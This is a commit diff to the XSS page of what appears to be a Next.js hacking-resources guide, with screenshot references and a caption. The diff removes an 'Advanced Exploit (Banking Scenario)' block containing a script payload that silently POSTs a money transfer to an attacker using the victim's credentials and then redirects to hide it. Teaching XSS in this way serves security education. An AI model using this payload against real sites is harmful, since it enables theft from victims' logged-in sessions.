

Before and after one commit to AnonAmosAdmn/HackingResourcesGuide, a Next.js app: page /xss in a window 1280 px wide. Shown: the part 605-1382 px from the top of the page, without its empty margins (192-1087 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update page.tsx

```diff
--- a/app/xss/page.tsx
+++ b/app/xss/page.tsx
@@ -55,22 +55,6 @@ export default function XSSPage() {
               <p className="text-sm text-gray-400 mt-1">Simple proof-of-concept demonstrating script execution in victims browser</p>
             </div>
 
-            <div>
-              <h4 className="font-medium mb-1">Advanced Exploit (Banking Scenario):</h4>
-              <pre className="bg-gray-700 p-3 rounded overflow-auto">
-{`http://bank.com/transfer?amount=1000&to=attacker
-<script>
-  fetch('/api/transfer', {
-    method: 'POST',
-    body: JSON.stringify({amount:5000,to:'ATTACKER'}),
-    credentials: 'include'
-  }).then(() => {
-    window.location = 'http://bank.com/confirmation'
-  })
-</script>`}
-              </pre>
-              <p className="text-sm text-gray-400 mt-1">Silently performs unauthorized transfer while maintaining appearance of legitimacy</p>
-            </div>
 
             <div className="p-3 bg-red-900/30 rounded">
               <h4 className="font-medium mb-2">Bypass Techniques and Obfuscation:</h4>
```
